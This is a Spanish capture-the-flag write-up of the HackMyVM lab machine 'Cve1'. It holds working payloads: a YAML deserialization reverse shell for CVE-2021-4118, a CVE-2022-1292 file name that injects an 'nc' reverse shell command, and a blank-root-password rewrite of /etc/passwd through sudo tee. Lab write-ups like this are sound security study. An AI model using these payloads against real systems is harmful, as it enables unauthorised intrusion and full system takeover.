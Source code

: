 ```yaml
---
layout: post
title: Cve1 - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: InfayerTS \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/cve1/cve_1.png#center)

## Reconocimiento

Como siempre, lo primero es un escaneo de puertos:

```
sudo nmap -p- 192.168.1.74     
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-13 11:35 EST
Nmap scan report for 192.168.1.74
Host is up (0.00012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin
MAC Address: 08:00:27:05:46:AA (Oracle VirtualBox virtual NIC)

```

### 9090

Al navegar a esta página encuentro el siguiente comentario:

```
<!--Backend developed with PyTorch Lightning 1.5.9-->
```

Investigando PyTorch encuentro la vulnerabilidad [CVE-2021-4118](https://huntr.dev/bounties/31832f0c-e5bb-4552-a12c-542f81f111e6/) con la que se puede obtener ejecución de código en el servidor.

Utilizando gobuster encuentro el archivo "file.yaml" en el servidor.

## Explotación

Para conseguir una reverse shell, basandome en el "Proof of Concept" de la vulnerabilidad, ejecuto un listener en una terminal y creo el siguiente yaml:

```
- !!python/object/new:yaml.MappingNode
listitems: !!str '!!python/object/apply:subprocess.Popen [["nc","-e", "/bin/bash", "192.168.1.72", "1234"]]'
state:
tag: !!str dummy
value: !!str dummy
extend: !!python/name:yaml.unsafe_load
```

Al subirlo al servidor con el nombre "file" (la extensión la añade automaticamente el servidor), consigo shell como www-data.

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.72] from (UNKNOWN) [192.168.1.74] 34696
www-data@cve-pt1:~$ whoami
www-data
www-data@cve-pt1:~$ :)
```

### Escalado de privilegios

Tras una extensa enumeración, descubro que el usuario wicca tiene un cronjob ejecutandose cada minuto:

```
www-data@cve-pt1:/etc$ grep -r wicca
[...]
cron.d/cve1:*/1 * * * * wicca c_rehash /etc/ssl/certs/
cron.d/cve1:*/1 * * * * wicca sleep 30; c_rehash /etc/ssl/certs/
[...]
```

El binario c_rehash tiene la vulnerabilidad [CVE-2022-1292](https://github.com/alcaparra/CVE-2022-1292/blob/main/README.md) con la cual puedo ejecutar una reverse shell y obtener acceso como el usuario wicca.

```
www-data@cve-pt1:/etc$ cd /etc/ssl/certs
www-data@cve-pt1:/etc/ssl/certs$ echo "-----BEGIN CERTIFICATE-----" > "hey.crt\`nc -c sh 192.168.1.72 12345\`"
```

Una vez se ejecute la tarea automaticamente, obtendremos una shell.

El usuario wicca tiene permiso para ejecutar tee como root, lo cual podremos utilizar para escalar privilegios.

```
wicca@cve-pt1:/etc/ssl/certs$ sudo -l
sudo: unable to resolve host cve-pt1: Name or service not known
Matching Defaults entries for wicca on cve-pt1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User wicca may run the following commands on cve-pt1:
    (root) NOPASSWD: /usr/bin/tee
```

En este caso, para no complicarme mucho creando claves, lo primero que he hecho es leer /etc/passwd, borrar la "x" en la posición de la contraseña y reescribir /etc/passwd utilizando tee. De esta forma el usuario root se quedará sin contraseña.

```
wicca@cve-pt1:/home$ echo "root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
avahi-autoipd:x:105:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
wicca:x:1000:1000:wicca,,,:/home/wicca:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin" | sudo tee /etc/passwd
```

De esta forma, ahora simplemente ejecuto "su" para iniciar sesion como root.

```
wicca@cve-pt1:/home$ su root
su root
root@cve-pt1:/home# :)
```

Muchas gracias  **InfayerTS** por esta máquina.
